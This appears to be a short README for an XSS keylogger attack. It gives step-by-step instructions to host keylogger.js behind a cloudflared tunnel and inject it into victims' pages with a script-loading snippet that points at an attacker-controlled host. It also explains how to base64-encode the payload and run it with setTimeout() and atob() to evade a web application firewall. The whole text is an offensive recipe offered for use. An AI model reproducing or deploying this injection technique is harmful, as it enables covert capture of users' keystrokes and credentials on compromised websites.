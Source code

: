 1. Make a cloudflared tunneling in your terminal for public keylogger.js host with ssl certificate or if you have your own ssl web server you can use it

2. Use this JS to call the keylogger script

- var a=document.createElement("script");a.src="https://[your webserver or cloudflare tunnel]/keylogger.js";document.body.appendChild(a);
</br>

4. Make this js to base64 for waf bypass

5. Add this to your xss payload with setTimeout() and atob()

6. atob() is used for base64 js execution and setTimeout() is used for waf bypass execution instead of eval()
